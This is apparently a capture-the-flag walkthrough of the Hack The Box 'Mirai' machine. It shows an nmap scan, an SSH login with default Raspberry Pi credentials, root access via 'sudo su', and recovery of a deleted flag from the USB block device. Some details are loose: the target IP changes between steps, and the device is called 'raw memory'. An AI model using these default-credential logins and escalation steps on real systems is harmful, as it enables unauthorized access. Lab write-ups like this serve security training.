

# Hack The Box: Mirai

## Difficulty: Easy
## OS: Linux

## Enumeration

We'll begin with an Nmap scan to enumerate open ports and services.

```bash
nmap -sC -sV -oN outputNMAP.txt -p- 10.129.8.120
```

Let's take a look at the results.


The site on port 80 is initially blocked. By adding the IP and hostname "mirai.htb" to the /etc/hosts file, we gain access to the web server.

This reveals that the service in use is "Pi-hole v3.1.4". Default credentials for Pi-hole are often pi-hole:pi-hole or pi:raspberry.

Manual directory brute-forcing reveals an admin directory.



Default credentials do not work on the website, but the SSH port is open.

## Foothold: Default Credentials vulnerability

Using default credentials, we can connect to the target via SSH.

```bash
ssh pi@10.129.8.147
raspberry
```


We can retrieve the user flag.

```bash 
ls
cd Desktop
cat user.txt
```

## We got the user flag!

## Privelage Escalation

Let's check what commands we can run as root.

```bash
sudo -l
```


The user "pi" can run all commands as root, so we'll switch to the root user and retrieve the root flag.

```bash
sudo su
cd /root
ls
cat root.txt
```


We'll also inspect the USB stick.

```bash
cd /media
ls
cd /usbstick
cat damnit.txt
```


The flag has been removed, but it might still be found in the raw memory.

```bash
lsblk -f
```

This command reveals the name of the memory file where the USB stick is mounted.

```bash
cat /dev/sdb
```

This displays the raw memory.


## We got the root flag!